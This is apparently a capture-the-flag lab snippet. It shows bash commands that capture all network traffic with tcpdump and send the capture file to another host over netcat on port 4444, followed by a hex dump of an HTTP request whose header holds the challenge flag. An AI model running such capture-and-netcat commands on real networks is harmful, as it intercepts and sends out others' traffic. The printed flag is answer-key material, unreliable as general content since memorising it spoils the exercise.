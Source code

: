 
```bash 
sudo timeout 90 tcpdump -i any -C 500 -w capture_super_long_baby.pcap
nc 192.168.0.4 4444 < ./capture_super_long.pcap
nc -lvnp 4444 > capture_super_long.pcap
```
0000   00 00 00 01 00 06 42 01 0a 29 e0 01 0a 33 08 00   ......B..)...3..
0010   45 00 01 ba b1 f1 40 00 40 06 68 e4 0a 00 07 72   E.....@.@.h....r
0020   0a 00 02 f7 c1 36 00 50 b3 8e b4 62 6a d1 c5 44   .....6.P...bj..D
0030   80 18 01 f6 06 e5 00 00 01 01 08 0a 91 cd 7b ee   ..............{.
0040   8b bf 71 e4 47 45 54 20 2f 25 2f 2f 68 74 6d 6c   ..q.GET /%//html
0050   2f 70 72 65 73 65 6e 74 61 74 69 6f 6e 2e 68 74   /presentation.ht
0060   6d 6c 20 48 54 54 50 2f 31 2e 31 0d 0a 48 6f 73   ml HTTP/1.1..Hos
0070   74 3a 20 63 75 69 74 65 75 72 2d 73 31 36 2e 65   t: cuiteur-s16.e
0080   74 68 68 61 6b 0d 0a 55 73 65 72 2d 41 67 65 6e   thhak..User-Agen
0090   74 3a 20 4d 6f 7a 69 6c 6c 61 2f 35 2e 30 20 28   t: Mozilla/5.0 (
00a0   58 31 31 3b 20 4c 69 6e 75 78 20 78 38 36 5f 36   X11; Linux x86_6
00b0   34 3b 20 72 76 3a 32 36 2e 30 29 20 47 65 63 6b   4; rv:26.0) Geck
00c0   6f 2f 32 30 31 30 30 31 30 31 20 46 69 72 65 66   o/20100101 Firef
00d0   6f 78 2f 32 36 2e 30 0d 0a 41 63 63 65 70 74 3a   ox/26.0..Accept:
00e0   20 74 65 78 74 2f 68 74 6d 6c 2c 61 70 70 6c 69    text/html,appli
00f0   63 61 74 69 6f 6e 2f 78 68 74 6d 6c 2b 78 6d 6c   cation/xhtml+xml
0100   2c 61 70 70 6c 69 63 61 74 69 6f 6e 2f 78 6d 6c   ,application/xml
0110   3b 71 3d 30 2e 39 2c 2a 2f 2a 3b 71 3d 30 2e 38   ;q=0.9,*/*;q=0.8
0120   0d 0a 41 63 63 65 70 74 2d 4c 61 6e 67 75 61 67   ..Accept-Languag
0130   65 3a 20 65 6e 2d 55 53 2c 65 6e 3b 71 3d 30 2e   e: en-US,en;q=0.
0140   35 0d 0a 41 63 63 65 70 74 2d 45 6e 63 6f 64 69   5..Accept-Encodi
0150   6e 67 3a 20 67 7a 69 70 2c 20 64 65 66 6c 61 74   ng: gzip, deflat
0160   65 0d 0a 58 2d 45 74 68 68 61 6b 2d 46 6c 61 67   e..X-Ethhak-Flag
0170   2d 43 6f 6e 74 65 6e 74 3a 20 66 6c 61 67 7b 31   -Content: flag{1
0180   34 63 65 31 38 30 37 37 34 32 61 31 38 36 66 32   4ce1807742a186f2
0190   62 61 34 32 35 63 33 65 36 37 32 63 39 36 32 30   ba425c3e672c9620
01a0   34 31 34 31 65 62 61 32 34 35 35 37 62 7d 0d 0a   4141eba24557b}..
01b0   43 6f 6e 6e 65 63 74 69 6f 6e 3a 20 6b 65 65 70   Connection: keep
01c0   2d 61 6c 69 76 65 0d 0a 0d 0a                     -alive....



X-Ethhak-Flag-Content: flag{14ce1807742a186f2ba425c3e672c96204141eba24557b}
